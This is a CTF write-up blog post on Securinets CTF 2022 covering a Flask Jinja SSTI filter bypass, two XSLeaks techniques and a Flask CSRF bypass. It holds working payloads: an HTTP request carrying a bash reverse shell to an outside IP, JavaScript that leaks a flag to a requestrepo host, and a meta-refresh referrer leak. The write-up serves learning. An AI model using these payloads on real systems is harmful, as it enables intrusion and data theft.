 ```yaml
---
title: 'Securinets CTF 2022'
description: "Some things I've learned from the Securinets CTF: How to bypass Flask Jinja SSTI WAF, XSLeaks with frame counting and referrer, Flask CSRF bypass"
layout: "post.ejs"
permalink: "/securinets-ctf-2022/"
date: 2022-05-18T00:00:00Z
---
```


Fun CTF, we managed to win the finals after getting 3rd place in the qualifiers. Too bad I couldn't go to Tunisia because of an exam, but I'm glad that my teammates did. 

I've learned a few web tricks from this CTF that I'd like to share.

![](/assets/images/posts/wtl1.png)

* [Flask Jinja SSTI WAF bypass](#wafbypass)
* [Frame counting XSLeaks](#xsleaksframe)
* [Referer XSLeaks](#xsleaksref)
* [Flask CSRF bypass](#csrfbypass)


<a name="wafbypass"></a>
## Flask Jinja SSTI WAF bypass

```py
if re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name']) is not None:
    name= "Hacking detected"
```

From the Regex above we see that we're pretty limited with what we can do, no double curly brackets, no dots, no underscore, no ". 

First, we can use {{ '{%' }} {{ '%}' }} syntax to trigger the template injection. Then, instead of `.` we can use `|attr('attribute')`. 

To bypass other values, we can simply use request.args.argName and pass the values via HTTP.

Writing all of that by hand can lead to human error, so it's better to automate the process:

```py
import re

"""
{{ '{%' }} if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
"""

payload = "{{ '{%' }} if (((request|ATR_A|ATR_B|ATR_C|ATR_D)(JST_E)|ATR_F)(JST_G)|ATR_I)() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"
payload = "{{ '{%' }} if (request|ATR_A|ATR_B|attr('get')(JST_C)|attr('get')(JST_D))(JST_E)|ATR_F(JST_G)|ATR_I() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"

regex = "('[a-z_ 0-9]+')"
regex_a = "ATR_([A-Z])"
regex_b = "JST_([A-Z])"

for p in re.findall(regex_a, payload):
    x = f"attr(request|attr('args')|attr('get')('{p.lower()}'))"
    payload = payload.replace('ATR_'+p, x)

for p in re.findall(regex_b, payload):
    x = f"request|attr('args')|attr('get')('{p.lower()}')"
    payload = payload.replace('JST_'+p, x)

rez = re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",payload)

if not rez:
    print(payload)
```

The HTTP request:

```
POST /?a=application&b=__globals__&c=__builtins__&d=__import__&e=os&f=popen&g=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/86.122.204.150/4444+0>%261'&i=read HTTP/1.1
Host: 128.199.3.34:1234
Content-Length: 395
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://128.199.3.34:1234
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://128.199.3.34:1234/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

name={{ '{%' }} if (request|attr(request|attr('args')|attr('get')('a'))|attr(request|attr('args')|attr('get')('b'))|attr('get')(request|attr('args')|attr('get')('c'))|attr('get')(request|attr('args')|attr('get')('d')))(request|attr('args')|attr('get')('e'))|attr(request|attr('args')|attr('get')('f'))(request|attr('args')|attr('get')('g'))|attr(request|attr('args')|attr('get')('i'))() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
```

<a name="xsleaksframe"></a>
## Frame counting XSLeaks

Suppose we have a search endpoint that includes an iframe in its response when the search query returns at least one result, and no iframes when there's no results.

We can use window.length to read the numbers of iframes embedded in any window, thus leaking information from our search guesses.

To leak the flag we just need to host this HTML payload on our website and send it to the admin:

```html
<body>
<iframe src="" id="theTarget" name="thewindow"></iframe>
</body>

<script>

window.idx = 0;
window.alph='_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}';
window.flag = 'Securinets{';

function check()
{
    var el = document.getElementById("theTarget");
    if (thewindow.length == 1) {
        window.flag += window.alph[window.idx];
        fetch('https://8mgwcnnq.requestrepo.com/'+window.flag);
        window.idx = 0;
    } else {
        window.idx += 1;
    }
    if (window.idx < window.alph.length)
    {
        var el = document.getElementById("theTarget");
        el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
    }
}

var el = document.getElementById("theTarget");

el.onload = check;

el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
</script>
```

<a name="xsleaksref"></a>
## Referer XSLeaks

Suppose we have an endpoint that returns the number of search results that match our query as a GET parameter. The endpoint doesn't return the actual content of the search results.

If we can inject arbitrary HTML, but no XSS / Object / Embed due to CSP, then we can make the page redirect to our website + leak the search parameters using the `<meta>` tag:

```html
<meta name="referrer" content="unsafe-url">
<meta http-equiv="refresh" content="0;url=https://wr0j8do9.requestrepo.com/" />
```


<a name="csrfbypass"></a>
## Flask CSRF bypass

```py
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)

@app.route('/create_paste', methods=['POST','GET'])
def create():
    if request.method=="GET":
        if 'username' not in session:
            return redirect('/login')
        return render_template("create_paste.html")
    else:
        if 'username' not in session:
            return redirect('/login')
        if len(request.values.get('paste'))<200:
            paste_id = create_paste(
                request.values.get('paste'),
                session['username']
            )
            return redirect('/view?id='+paste_id)
        return redirect('/home')
```

Can you spot the vulnerability in the code above? 

Flask will accept the HEAD method as well and the else doesn't test if the method is POST.

With that, we can bypass CSRFProtect :)
